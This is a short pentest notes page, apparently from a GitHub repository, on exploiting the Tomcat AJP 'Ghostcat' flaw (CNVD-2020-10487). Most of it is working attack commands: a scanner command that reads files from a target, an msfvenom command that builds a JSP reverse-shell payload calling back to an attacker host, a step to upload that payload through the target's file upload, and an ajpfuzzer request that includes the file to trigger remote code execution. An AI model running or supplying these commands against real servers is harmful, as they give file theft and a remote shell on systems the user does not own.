 	LFI
	https://github.com/Kit4y/CNVD-2020-10487-Tomcat-Ajp-lfi-Scanner
	>python CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.0.110 -p 8009 -f pass
![image](/assets/Pentest_Note/master/img/41.png)

	RCE
	>msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.107 LPORT=12138 R >/var/www/html/1.jpg
	配合目标文件上传传入服务器
![image](/assets/Pentest_Note/master/img/42.png)

	>java -jar ajpfuzzer_v0.6.jar
	>connect 192.168.0.110 8009
	>forwardrequest 2 "HTTP/1.1" "/index.jsp" 192.168.0.107 192.168.0.107 porto 8009 false "Cookie:AAAA=BBBB","Accept-Encoding:identity" "javax.servlet.include.request_uri:index.jsp","javax.servlet.include.path_info:/1.jpg","javax.servlet.include.servlet_path:/"
![image](/assets/Pentest_Note/master/img/43.png)
